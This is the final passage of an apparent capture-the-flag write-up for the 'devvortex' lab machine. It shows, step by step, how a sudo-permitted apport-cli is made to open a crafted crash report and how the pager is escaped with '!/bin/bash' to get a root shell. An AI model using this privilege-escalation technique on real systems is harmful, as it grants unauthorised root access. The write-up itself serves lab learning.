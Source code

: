 But first we have to generate a report under `/var/crash` so i created a file named `crash.crash`  and re-run the command.

```bash
sudo /usr/bin/apport-cli -c /var/crash/crash.crash

*** Error: Invalid problem report

This problem report is damaged and cannot be processed.

ValueError('Report does not contain "ProblemType" field')
```

It said that need a ProblemType field so i added it to the file and re -run it again.

```bash
sudo /usr/bin/apport-cli -c /var/crash/crash.crash

*** Error: Invalid problem report

This problem report is damaged and cannot be processed.

ValueError('not enough values to unpack (expected 2, got 1)')
```

Now it need another value so i added a string next to ProblemType and re-run it again.

```crash.crash
ProblemType: test
```

```bash
sudo /usr/bin/apport-cli -c /var/crash/crash.crash
*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (0.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
!/bin/bash
root@devvortex:/var/crash#
```

Now we can read the `root.txt` inside `/root/`.

![Desktop View](root.png) 

---

  ![Desktop View](pwned.png)
 
---
***Thanks for reading, i'll appreciate that you take a look to my other posts  :)***
